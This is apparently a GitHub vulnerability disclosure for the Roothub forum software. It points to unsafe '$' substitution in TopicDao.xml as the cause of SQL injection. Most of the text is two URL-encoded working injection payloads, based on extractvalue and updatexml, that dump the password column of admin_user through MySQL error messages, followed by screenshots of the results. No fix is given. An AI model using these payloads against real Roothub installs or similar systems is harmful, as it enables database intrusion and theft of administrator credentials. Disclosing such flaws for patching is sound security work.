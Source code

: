 # Roothub_vulns

Vulnerable codes:

## Bug 1:
> Erroneously used "$" of in mapper/TopicDao.xml:130:
![image](https://user-images.githubusercontent.com/9525971/159167814-90697f99-74dc-496f-be04-c641db268602.png)<br><br>
## Bug 2:
> Erroneously used "$" in mapper/TopicDao.xml:516:
![image](https://user-images.githubusercontent.com/9525971/159168468-e1956c80-26dd-4ad9-84ef-2939688cd907.png)

<br><br>
> Payload: we can use "extractvalue" or "updatexml" function in mysql to trigger the exception and finish the exploition of this SQLi vulnerability.
1. "extractvalue":
a%25'%20union%20select%20null%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cextractvalue('1'%2Cconcat('~'%2C(select%20password%20from%20admin_user)))%20from%20admin_user--%20

2. "updatexml":
xx%25%27%20and%20updatexml(1%2Cconcat(0x7e%2C(select%20password%20from%20admin_user)%2C0x7e)%2C3)--%20<br><br>

> Result:
1. "extractvalue":
![image](https://user-images.githubusercontent.com/9525971/159168040-faae0fcd-d21c-4784-ab39-3faac5d6664e.png)<br>
2. "updatexml": 
![image](https://user-images.githubusercontent.com/9525971/159168005-c753cbf5-9f82-463c-9bcf-5dcfe8cdc6d6.png)

